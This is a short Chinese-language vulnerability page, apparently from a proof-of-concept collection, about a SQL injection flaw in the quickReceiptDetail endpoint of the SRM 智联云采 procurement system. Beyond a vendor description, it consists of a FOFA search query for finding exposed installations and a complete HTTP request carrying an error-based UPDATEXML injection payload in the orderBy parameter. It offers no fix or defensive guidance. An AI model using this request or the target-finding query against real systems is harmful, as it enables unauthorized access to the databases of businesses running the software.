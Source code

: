 # SRM智联云采系统quickReceiptDetail存在SQL注入漏洞
智互联(深圳)科技有限公司SRM智联云采系统针对企业供应链管理难题，及智能化转型升级需求，智联云采依托人工智能、物联网、大数据、云等技术，通过软硬件系统化方案，帮助企业实现供应商关系管理和采购线上化、移动化、智能化，提升采购和协同效率，进而规避供需风险，强化供应链整合能力，构建企业利益共同体。智互联(深圳)科技有限公司SRM智联云采系统quickReceiptDetail存在SQL注入漏洞。

## fofa
```javascript
title=="SRM 2.0"
```

## poc
```java
POST /adpweb/api/srm/delivery/quickReceiptDetail?orderBy=%28UPDATEXML%288058%2CCONCAT%280x2e%2C0x71707a7671%2C%28SELECT+%28ELT%288058%3D8058%2C1%29%29%29%2C0x71766a7671%29%2C3521%29%29 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

![image-20241122151037735](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411221510814.png)

